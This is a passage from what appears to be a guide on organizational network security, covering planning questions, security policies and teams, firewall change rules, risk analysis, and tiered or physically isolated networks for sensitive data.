* Will access be required only at certain times or 24/7 (and across multiple time zones and/or internationally)?
* What kind of budget do I have?
* Will remote users access the network and, if so, how many?
* Will there be remote sites in geographically distant locations (requires a fail-safe mechanism such as replication to ensure data is synchronized across the network)?

Next, you should specify responsibilities for security requirements, communicate your expectations to your users (one of the weakest links in any security policy), and establish role(s) for your network administrator. It should list policies for activities such as web browsing, downloading, local and remote access, and authentication types. You should cover issues such as adding users, assigning privileges, dealing with lost tokens or compromised passwords, and under what circumstances to remove users from the access database.

You should establish a security team (sometimes called a "tiger team") that will be responsible for creating security policies that are practical, enforceable, and sustainable. They must find the best plan to implement these policies in a way that ensures network resources are both protected and user-friendly. They must develop plans to respond to threats as well as programs to update equipment and software. And there should be a very clear policy for handling changes in overall network security — the types of connections that will and will not be allowed through your firewall. This is especially important because you don't want an unauthorized user to gain access, reach your network, and simply retrieve files or data.

Businesses with e-commerce or confidential activities need to conduct a risk analysis to determine the risks they may face. This analysis should be done taking into account information processing, common access, and similar factors. Depending on the risks, a business may rethink a network design. For a small business,A simple extranet/intranet setup and moderate firewall protection may be sufficient. However, these measures will be insufficient for a company dealing with financial data. In this case, what is needed is a tiered system. At the same time, businesses need to separate the corporate side (email, intranet access, etc.) and a separate, secure network (internet or corporate side). Only a user with physical access can access these networks and data can only be transferred using physical media. These networks can be used for data systems, such as testing or laboratory systems, or for the storage or processing of critical or confidential information. In Department of Defense parlance, these networks are called red networks or black networks.

Having identified some of the challenges of building a secure organization, let us now examine 10 ways to successfully establish one. The following steps will put a business on a path toward a solid security posture.
